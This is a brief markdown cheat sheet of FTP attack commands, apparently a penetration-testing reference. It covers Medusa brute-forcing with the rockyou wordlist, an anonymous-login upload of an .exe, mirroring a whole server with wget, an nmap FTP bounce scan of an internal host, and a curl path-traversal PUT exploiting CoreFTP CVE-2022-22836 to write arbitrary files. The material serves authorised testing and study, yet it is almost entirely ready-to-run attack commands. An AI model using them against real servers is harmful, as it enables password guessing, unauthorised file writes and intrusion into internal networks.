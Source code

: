 Listens 21


### Brute Force w/ Medusa
```bash
medusa -u [User] -P /usr/share/wordlists/rockyou.txt -h [FTP_IP] -M ftp 
```

### Use active mode, binary transfer, put .exe on Linux
```bash
ftp [FTP_IP]
# Login as anonymous; no pw
ftp> passive
	Passive mode: off; fallback to active mode: off
ftp> binary
	200 Type set to I.
ftp> put [File]
```

### Download everything from an FTP server
```bash
wget -m --no-passive ftp://anonymous:anonymous@[FTP_IP]
```

### Bounce Attack
```bash
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```
	 - Use external FTP server to gain info on internal endpoint


### CoreFTP Attack
```bash
curl -k -X PUT -H "Host: [FTP_IP]" --basic -u [User]:[Password] --data-binary "[Data]" --path-as-is https://[IP]/../../../../../../[Output_Filename]
```
	- CVE-2022-22836